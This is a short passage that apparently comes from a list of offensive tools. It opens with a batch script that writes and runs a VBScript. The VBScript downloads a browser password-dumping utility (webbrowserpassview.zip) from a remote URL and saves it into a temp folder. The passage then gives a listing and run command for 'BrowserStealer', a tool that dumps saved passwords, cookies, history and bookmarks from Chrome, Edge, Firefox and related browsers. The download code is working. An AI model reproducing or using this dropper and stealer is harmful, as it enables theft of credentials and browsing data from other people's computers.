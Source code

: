 ```
echo strHDLocation = "%temp%\freak\webbrowserpassview.zip" >> %temp%\freak\all.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> %temp%\freak\all.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> %temp%\freak\all.vbs
echo objXMLHTTP.send() >> %temp%\freak\all.vbs
echo If objXMLHTTP.Status = 200 Then >> %temp%\freak\all.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> %temp%\freak\all.vbs
echo objADOStream.Open >> %temp%\freak\all.vbs
echo objADOStream.Type = 1 >> %temp%\freak\all.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\freak\all.vbs
echo objADOStream.Position = 0 >> %temp%\freak\all.vbs
echo Set objFSO = Createobject("Scripting.FileSystemObject") >> %temp%\freak\all.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\freak\all.vbs
echo Set objFSO = Nothing >> %temp%\freak\all.vbs
echo objADOStream.SaveToFile strHDLocation >> %temp%\freak\all.vbs
echo objADOStream.Close >> %temp%\freak\all.vbs
echo Set objADOStream = Nothing >> %temp%\freak\all.vbs
echo End if >> %temp%\freak\all.vbs
echo Set objXMLHTTP = Nothing >> %temp%\freak\all.vbs
call %temp%\freak\all.vbs
```


### BrowserStealer

https://github.com/SaulBerrenson/BrowserStealer

Simple password/cookies/history/bookmarks stealer/dumper for chrome all version (includes 80+), microsoft edge browser,includes all chromium based browsers, and all gecko based browser (firefox etc.).

```
BrowserCollector.exe
```



Cover By Victoria Trach

